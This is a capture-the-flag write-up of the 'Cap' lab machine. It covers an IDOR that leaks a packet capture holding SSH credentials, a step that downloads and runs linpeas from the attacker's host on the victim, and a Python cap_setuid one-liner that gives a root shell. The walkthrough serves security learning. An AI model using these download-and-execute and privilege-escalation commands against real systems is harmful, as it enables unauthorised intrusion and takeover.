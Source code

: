 # Cap

![](images/Cap.png)

__Machine IP__: 10.10.10.160

__DATE__ : 9/11/2019

# Machine Info
Cap is an easy difficulty Linux machine running an HTTP server that performs administrative functions including performing network captures. Improper controls result in Insecure Direct Object Reference (IDOR) giving access to another user's capture. The capture contains plaintext credentials and can be used to gain foothold. A Linux capability is then leveraged to escalate to root. 

# FootHold 

## NMAP
![](images/nmap.png)

## HTTP
![](images/dashboard.png)
After looking around I have noticed that in the security snapshot I was getting different URLs with different data types

example
10.10.10.245/data/2

## GoBuster
![](images/gobuster.png)
__NOTE: Had help was told to look at the sizes more carefully. Lost couple of hours here and decided to get hint__

we can see that there is 3 different sizes


**17144** had no packets

**17153** was data of my GoBuster

**17147** there was an interesting PCAP

# USER

## PCAP
![](images/pcap.png)
We use WireShark to open and read this file. It takes less than 2 minutes to see we have a user and password

we know SSH in open lets try it

After we connected to SSH we can see the user.txt

# ROOT
I have decided to run Linpeas.sh while also manually privilege escalating

My folder with linpeas.sh
```bash
python3 -m http.server 8080
```
victim 
```bash
w get http:$MyIP:8080/linpeas.sh

chmod +x linpeas.sh

./linpeas
```


linpeas detects vulnerability in Capabilities

```bash
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

I use GTFObins select Python and Capabilities 


```bash
./python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

I get root and cat the root.txt

Machines PWNED
